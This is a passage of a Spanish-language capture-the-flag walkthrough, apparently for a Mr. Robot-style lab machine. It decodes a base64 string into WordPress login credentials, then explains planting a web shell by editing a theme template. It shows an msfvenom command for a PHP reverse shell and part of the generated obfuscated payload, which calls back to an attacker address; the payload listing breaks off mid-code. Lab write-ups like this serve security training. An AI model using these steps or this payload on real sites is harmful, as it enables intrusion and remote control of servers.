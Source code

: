 Por lo general con este tipo de ataque suele aparecer la contraseña, ya que el examen esta hecho para realizar ataques de fuerza bruta.

Pero si no les aparece les recomiendo probar otras cosas, por ejemplo dentro del directorio `license` ocurre algo extraño.

Si abren el directorio les mostrará un texto y al final de todo encontraremos una cadena de texto, es importante saber si esta codificado en `base 64`, asi que lo deciframos para ver que contiene

```bash
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```

Respuesta:

```bash
elliot:ER28-0652
```

Aqui nos muestra el usuario y contraseña.

Dado que esta contraseña no se encuentra en el directorio, siempre es recomendable buscar información por los directorios y si encuentran una cadena de texto extraña traten de descodificarla en `base64`

Encontrada una vez la contraseña, volvemos a la página de Login e ingresamos las credenciales para podernos logear 

-----

Una vez que estemos dentro del panel de administración de **WordPress**, como podemos obtener acceso a la máquina victima, es decir a la máquina que este alojando este **WordPress** 

Recuerden que en `Appearance`, tenemos la opción de `Editor`, una vez dentro a nuestro lado derecho tendremos varias plantillas 

Por ejemplo si editamos alguna de estas plantillas e insertamos un código malicioso y luego accedo a ellas desde el navegador pues estaremos llamando al contenido malicioso que subimos.

En este punto entraría en juego la herramienta `msfvenom` para crear nuestro archivo malicioso, para luego copiar y pegarlos dentro del directorio de wordpress 

```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
```

Una vez creado el payload, le hacemos un `cat` y copiariamos un texto como este : 

```php
/*<?php /**/
  @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_se
  $dis=@ini_get('disable_functions');
  if(!empty($dis)){
    $dis=preg_replace('/[, ]+/',',',$dis);
    $dis=explode(',',$dis);
    $dis=array_map('trim',$dis);
  }else{
    $dis=array();
  }
  
$ipaddr='10.21.21.212';
$port=443;

if(!function_exists('CkWFVVEpPfTarR')){
  function CkWFVVEpPfTarR($c){
    global $dis;
    
  if (FALSE !== stristr(PHP_OS, 'win' )) {
    $c=$c." 2>&1\n";
  }
  $JxlwS='is_callable';
  $YsBb='in_array';
```